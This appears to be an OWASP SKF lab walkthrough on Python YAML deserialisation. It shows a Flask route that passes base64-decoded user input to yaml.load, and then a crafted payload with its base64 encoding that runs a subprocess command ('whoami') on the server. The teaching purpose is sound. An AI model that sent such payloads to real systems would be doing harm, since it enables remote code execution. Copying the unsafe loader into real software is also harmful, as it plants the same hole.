




# Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```


Now that the app is running let's go hacking!


## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.



By Base64 decoding you can see it uses a key value pair -> foo : value



Also we can have a look at the documentation of the Python implementation for the .yaml file here:



The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.


In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```



As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.



## Additional sources


